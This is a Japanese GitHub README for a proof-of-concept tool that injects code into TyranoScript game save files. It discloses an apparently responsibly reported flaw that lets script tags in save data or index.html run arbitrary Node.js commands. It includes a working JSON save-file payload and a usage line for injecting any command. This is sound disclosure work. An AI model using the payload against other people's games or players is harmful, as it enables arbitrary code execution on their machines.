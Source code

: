 # TyranoKiller
👻 TyranoScript(Tyrano シリーズ)のテスト用コードインジェクションツール  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠他者から受け取ったセーブデータファイルや開発データの利用は大変危険です!!!!⚠**  

本脆弱性は[独立行政法人情報処理推進機構(IPA)](https://www.ipa.go.jp/)及び開発者に報告を行った後、365日の期間を開けて公開されました。
脆弱性に該当しない可能性がある/セキュリティリスクとなりうる部分を修正したとの返答を受け取っており、注意喚起及び同様の脆弱性の作りこみの防止を目的とします。
本PoCはユーザへの注意喚起と、ユーザ自身が作成したゲームの脆弱性を調査する目的でのみの利用が許可され、攻撃への転用は禁止されています。
また、他者の作成したゲームに本PoCを使用することは、法律で禁止されている場合がありますのでご注意ください。  
ツール名はジョークです(恐竜の🍖食べてみたいよね)。

## Vulnerability
以下に示すツール/バージョンを用いて開発されたすべてのゲームに、セーブデータファイル経由の脆弱性が存在します。
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

攻撃者はセーブデータファイル内に埋め込まれたHTMLタグを経由して、JavaScriptからNode.jsの全機能を利用し、任意のコードを実行することができます。
これにより被害者は、配布されているセーブデータを読み込むだけで、悪意のあるコードの脅威にさらされることとなります。
また、ゲームの開発データである`index.html`を経由しても同様であり、対象のソフトウェア(ツール)/バージョンは以下になります。
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.02  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.11d)  
- (TyranoScript <= 4.88)  

本PoCにはindex.htmlにコードをインジェクションするテスト機能はありませんが、以下のコードを埋め込んだゲームを開発者としてプレビューすると、XSSから任意のコードが実行されます。
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
脆弱性調査はオリジナルのゲームセーブデータを利用せずに再現することができます。
他者のゲームにおいて調査を行う場合は、以下を利用することでセーブデータ改変の著作権諸問題を回避できます。
以下のセーブデータは、すべてのゲームのセーブデータパターンにマッチします。
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(サンプルゲーム引用元: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
デフォルトでは`calc`が実行されます。
コードはセーブデータの先頭のセーブに反映されます。

**コード`alert('Injected_by_TyranoKiller_!!!!');`は悪用を防ぐために付加されており、削除を禁止します。**
